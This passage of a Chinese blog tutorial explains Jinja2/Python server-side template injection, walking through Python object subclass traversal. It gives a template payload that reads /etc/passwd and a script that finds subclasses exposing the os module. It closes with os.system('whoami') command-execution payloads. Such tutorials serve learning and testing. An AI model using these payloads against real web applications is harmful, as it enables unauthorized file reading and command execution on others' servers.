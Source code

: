 使用dir来看一下file这个子类的内置方法：

dir(().__class__.__bases__[0].__subclasses__()[40])

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903162108171-343241811.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903162108171-343241811.png)

将要读取的文件传进入并使用readlines()方法读取，就相当于：

file('joker.txt').readlines()

可以在python交互终端中尝试输出：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903185622152-2036123666.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903185622152-2036123666.png)

再使用jinja2的语法封装成可解析的样子：

{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='file' %}
{{ c("/etc/passwd").readlines() }}
{% endif %}
{% endfor %}

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903162635283-101719007.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903162635283-101719007.png)

不过我这边一直没有读取成功，原因是：**python3已经移除了file。所以利用file子类文件读取只能在python2中用。**

docker容器默认使用python3版本

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903163434739-57279547.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903163434739-57279547.png)

上面的实例中我们使用dir把内置的对象列举出来，其实可以用__globals__更深入的去看每个类可以调用的东西（包括模块，类，变量等等），如果有os这种可以直接传入命令，造成命令执行

#coding:utf-8search = 'os'   #也可以是其他你想利用的模块
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass 

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903164854386-1155449135.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903164854386-1155449135.png)

可以看到在元组68，73的位置找到了os方法，这样就可以构造命令执行payload:

().__class__.__bases__[0].__subclasses__()[68].__init__.__globals__['os'].system('whoami')
().__class__.__base__.__subclasses__()[73].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[68].__init__.__globals__['os'].system('whoami')
().__class__.__mro__[1].__subclasses__()[73].__init__.__globals__['os'].system('whoami')

在python交互终端中尝试输出：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903185803928-864364882.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903185803928-864364882.png)
